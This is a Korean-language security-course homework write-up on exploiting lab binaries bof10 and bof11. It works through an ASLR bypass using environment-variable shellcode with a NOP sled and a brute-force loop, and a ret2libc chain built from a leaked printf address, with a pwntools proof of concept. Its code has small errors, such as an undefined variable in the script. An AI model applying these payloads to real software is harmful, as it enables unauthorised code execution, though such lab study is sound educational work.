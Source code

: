 # GBC Security_09

## HW #9

### 익스플로잇
---

### 1. sum up

* ASLR (Address Space Layout Randomization) : 프로세스의 가상 주소공간에 heap, stack, libc등이 mapping 될 때 해당 주소값을 프로그램 실행 시마다 랜덤하게 변경하는 기법
* 확인 방법 : `cat /proc/sys/kernel/randomize_va_space`
	* 0 : 비활성화
	* 1 : 부분 활성화 (stack, libc)
	* 2 : 완전 활성화 (stack, libc, heap) 
* 따라서, ASLR이 활성화된 경우, ASLR 우회가 필요하다.

### 2. bof 10 

* bof 8과 비슷한 문제인데, ASLR이 활성화 되어있다.


> `cat /proc/sys/kernel/randomize_va_space` 명령어를 통해, ASLR 활성여부를 알 수 있다.
bof 10의 경우, `2`로 표시되므로, `stack, libc, heap`이 모두 활성화된 상태

![bof10-1](https://user-images.githubusercontent.com/47182864/61504929-277dbe80-aa18-11e9-964d-58e395d6a202.png)

>`bat ./bof10`으로 소스 코드를 보면 !  
> `strcpy()` 의 취약점을 이용할 것이고,  
> `BUF_SIZE`가 8밖에 되지 않으므로, 쉘코드를 환경변수에 등록해야 한다.  

```shell
export SHELLCODE=`python -c "print '\x90'*10 + '\xeb\x12\x31\xc9\x5e\x56\x5f\xb1\x15\x8a\x06\xfe\xc8\x88\x06\x46\xe2\xf7\xff\xe7\xe8\xe9\xff\xff\xff\x32\xc1\x32\xca\x52\x69\x30\x74\x69\x01\x69\x30\x63\x6a\x6f\x8a\xe4\xb1\x0c\xce\x81'"`
```

![bof10-3](https://user-images.githubusercontent.com/47182864/61504931-28165500-aa18-11e9-92d8-a6c76eb77616.png)

> ASLR이 활성화 되었을 경우, 다음과 같이 SHELLCODE 환경변수의 주소값이 실행시마다 바뀐다.

![bof10-2](https://user-images.githubusercontent.com/47182864/61508532-48004580-aa25-11e9-9cd6-cbafd19c91da.png)

따라서, 쉘 코드를 환경 변수에 등록해놓았더라도 쉘 코드가 실행되기 어렵다.   
위에서 `NOP`코드를 10byte 넣었는데, 그럼 쉘 코드를 실행시킬 수 있는 address의 범위는 __11byte__이다.
> __왜 범위가 11byte?__ 쉘 코드가 `0x1000`에 저장되었다 했을 때, `0x1000`부터 `NOP`코드가 10개 들어간다 (0x1000~0x1009). `0x1009`까지 `NOP`이고, `0x100a`에는 쉘코드가 들어가므로 11byte.

NOP코드를 10byte 넣을 때, 쉘 코드가 실행될 확률 (환경변수의 주소값 : 0x00000000 ~ 0xffffffff)
 
```
(11 / 0xffffffff) * 100 
```
* NOP코드를 많이 넣을 수록, 쉘 코드가 실행될 확률이 높아진다.
* 환경 변수에 NOP코드를 넣을 수 있는 최대 한계 : 130000 byte

NOP코드를 130000 byte 넣을 때, 쉘 코드가 실행될 확률
 
```
(130001 / 0xffffffff) * 100 = 1.549%
```

* 1%가 넘으면, 유의미한 확률이라고 한다. 따라서, 브루트포스 공격을 할 수 있다!


> 환경변수

```shell
export SHELLCODE=`python -c "print '\x90'*130000 + '\xeb\x12\x31\xc9\x5e\x56\x5f\xb1\x15\x8a\x06\xfe\xc8\x88\x06\x46\xe2\xf7\xff\xe7\xe8\xe9\xff\xff\xff\x32\xc1\x32\xca\x52\x69\x30\x74\x69\x01\x69\x30\x63\x6a\x6f\x8a\xe4\xb1\x0c\xce\x81'"`
```
![bof10-4](https://user-images.githubusercontent.com/47182864/61504932-28165500-aa18-11e9-895f-f4d65183b00f.png)

> 익스플로잇

```shell
while : ; do ./bof10 `python -c "print 'a'*20 + '\x36\x4c\xc6\xff'"` ; done
while : ; do ./bof10 `python -c "print 'a'*20 + '\xe8\xd2\xef\xff'"` ; done
```
> > `buf` 와 `return address` 까지의 거리는 20 byte이므로, 쓰레기 값으로 20byte를 채워주고, `SHELLCODE` 환경변수 주소값을 0xff800000 ~ 0xffffffff 사이의 적당한 값으로 기입한다.  
> >  `while` 문을 이용하여 무한루프를 돌린다.


##### [ Result ]

![bof10-5](https://user-images.githubusercontent.com/47182864/61504933-28aeeb80-aa18-11e9-96f6-2ce312649f6b.png)

### 3. bof 10 

ASLR 활성여부 확인한다.
> 명령어 : $`cat /proc/sys/kernel/randomize_va_space`  
bof 11의 경우, `2`로 표시되므로, `stack, libc, heap`이 모두 활성화된 상태이다.

![bof11-2](https://user-images.githubusercontent.com/47182864/61511667-6e78ad80-aa32-11e9-8aa7-7b19fd340ba0.png)

> ASLR 때문에 `printf` 함수의 주소값이 계속 달라진다.

![bof11-1](https://user-images.githubusercontent.com/47182864/61511666-6e78ad80-aa32-11e9-80bb-0e137a21cc67.png)

stack 실행 권한을 확인한다.
> $ `cat /proc/sef/maps` : 현재 프로세스의 메모리 구조를 확인할 수 있다.  
> stack의 권한이 __rw-p__로, 읽기(r)와 쓰기(w) 권한만 있고, 실행될 어셈블리어들이 저장되는 text섹션의 권한은 __r-xp__로, 읽기(r)와 실행(x) 권한만 있다.  

![bof11-3](https://user-images.githubusercontent.com/47182864/61512152-f4492880-aa33-11e9-803e-8f9c55ddb102.png)

NX bit가 있으므로, RTL 기법을 사용해야 하는데, ASLR이 활성화 되어 있어서 RTL을 적용할 수 없다.
하지만, 위에서 실행시켜 보았을 때 `printf` 함수의 주소값이 유출되고 있으므로, RTL을 적용할 수 있다.

> __메모리의 데이터를 유출시킬 수 있다는 조건__이 있을 경우, __ASLR 이 활성화되어있어도 RTL 을 적용__할 수 있다.

#### solving
system 주소값, /bin/sh 주소값, pop rdi ; ret 주소값을 구한 후, printf 함수와의 거리를 계산하면 ASLR 을 우회할 수 있다.
> libc 라이브러리 내부 함수끼리의 상대적 거리는 항상 같다.

* `printf`와 `system`함수 거리

```shell
(printf 의 주소값) + X = (system 함수의 주소값)

 X = (system 함수의 주소값) - (printf 의 주소값)
```

![bof11-4](https://user-images.githubusercontent.com/47182864/61514671-80ab1980-aa3b-11e9-8ec7-dc9b74a33a0b.png)


```shell
X = -66672
```
---
* `printf`와 `/bin/sh` 거리

```shell
(printf 의 주소값) + Y = (/bin/sh 의 주소값)

 Y = (/bin/sh 의 주소값) - (printf 의 주소값)
```
![bof11-5](https://user-images.githubusercontent.com/47182864/61514672-8143b000-aa3b-11e9-9cfe-e812a72ff044.png)

```
Y = 1275223
```

---

* `printf`와 `pop rdi ; ret` 거리

```shell
(printf 의 주소값) + Z = ("pop rdi ; ret" 가젯의 주소값)

 Z = (pop rdi ; ret 가젯의 주소값) - (printf 의 주소값)
```
```
pop rdi ; ret 가젯의 주소값 = (libc 의 베이스 주소값) + ("pop rdi ; ret" 의 오프셋)
```

![bof11-7](https://user-images.githubusercontent.com/47182864/61514674-8143b000-aa3b-11e9-90b3-af95f8ffa853.png)
![bof11-8](https://user-images.githubusercontent.com/47182864/61514676-8143b000-aa3b-11e9-9fe9-cb20c30dc005.png)

```
Z = -214782
```
---

* `buf` 와 `return address` 거리

![bof11-9](https://user-images.githubusercontent.com/47182864/61515595-f87a4380-aa3d-11e9-8111-a9262840e830.png)

```
24
```
---

##### Payload

```shell
쓰레기값 (24byte) + pop rdi ; ret 가젯의 주소 (8byte) + /bin/sh의 주소 (8byte) + system 함수의 주소 (8byte)
```
> pop rdi ; ret 가젯의 주소값 = printf 주소값 + (-214782)  

> system 함수 주소값 = printf 주소값 + (-66672)  
  
>  "/bin/sh" 주소값 = printf 주소값 + 1275223

* 실행도중 printf의 주소값이 필요한데, 이를 쉘 상에서 하기 어려우므로 POC코드를 이용한다.

##### POC 코드
```python
from pwn import *

p = process('./bof11')	# 익스플로잇 대상이 되는 실행파일 실행 + process 반환

p.recvuntil('printf() address : ')	# 해당 문자열이 나올때까지 data 받아서 반환
printf_a = p.recvuntil('\n')
printf_a = int(printf, 16)

sys = printf_a + (-66672)
binsh = printf_a + (1275223)
gadget = printf_a + (-214782)
buf = 24

payload = "G" * buf
payload += p64(gadget)		# p64(num) : num을 64bit 형식으로 패킹
payload += p64(binsh)
payload += p64(sys)
p.send(payload)	# payload를 프로세스에 입력

p.interactive() # 프로세스의 입력스트림과 출력 스트림을 연다
```
* `recvuntil` 함수로 'printf() address : ' 라는 문자열까지 데이터를 받은 후 '\n' 까지 데이터를 받으면 정확하게 `printf` 함수의 주소값을 반환 받을 수 있다고 한다. 그러면 반환받은 `printf` 주소값을 이용해서 payload를 만든 후 `send` 함수로 payload를 보내서 익스플로잇을 시도한다. 

![bof11--10](https://user-images.githubusercontent.com/47182864/61517430-2eb9c200-aa42-11e9-90dc-b9ce4777c208.png)

##### Result

![bof11-11](https://user-images.githubusercontent.com/47182864/61517431-2eb9c200-aa42-11e9-836b-66e8ff0ac620.png)

---



